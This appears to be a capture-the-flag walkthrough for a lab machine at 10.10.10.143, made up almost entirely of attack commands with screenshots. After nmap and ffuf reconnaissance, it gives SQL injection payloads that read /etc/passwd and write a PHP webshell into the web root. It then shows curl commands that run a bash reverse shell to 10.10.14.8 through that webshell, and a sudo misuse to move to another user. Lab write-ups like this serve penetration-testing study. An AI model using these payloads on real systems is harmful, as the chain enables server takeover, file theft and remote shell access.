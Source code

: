 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)



![image](https://user-images.githubusercontent.com/33616880/231967279-462d7629-3f4f-4f75-bff1-b82ba0cfeb7b.png)

![image](https://user-images.githubusercontent.com/33616880/231967320-8aa8e60a-e6b3-4552-882e-0ad264e09771.png)



![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)



```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
![image](https://user-images.githubusercontent.com/33616880/231977903-441bb61c-6dad-427e-9d5f-387558289cf6.png)
![image](https://user-images.githubusercontent.com/33616880/231977956-2ac3c680-de93-4e87-8b3c-91a432c7efa6.png)


